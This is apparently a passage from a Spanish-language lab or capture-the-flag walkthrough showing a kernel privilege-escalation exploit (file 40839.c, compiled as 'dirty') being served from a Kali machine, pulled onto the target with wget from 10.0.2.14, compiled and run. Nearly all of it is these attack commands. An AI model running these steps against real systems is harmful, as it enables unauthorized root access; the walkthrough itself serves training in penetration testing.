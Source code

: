 El exploit esta realizado en C por lo que necesito compilarlo en la maquina objetivo y ejecutarlo desde ella. 

Para esto levanto un servidor en mi maquina kali con el comando:

```bash
python3 -m http.server 8080
```

![alt text](image-1.png)

y ahora desde la shell de la maquina objetivo me desplazo a una carpeta que tenga opciones de escritura, normalmente suele tenerlo tmp y lo descargo con el comando

```bash
wget 10.0.2.14:8080/40839.c
```

![alt text](image-2.png)

Ahora realizo la compilacion del exploit en la maquina objetivo con el comando:

```bash
gcc -pthread 40839.c -o dirty -lcrypt
```

Le damos permiso de ejecucion:

```bash
chmod +x dirty
```

Y ejecutamos el exploit con: `./dirty`

![alt text](image-3.png)
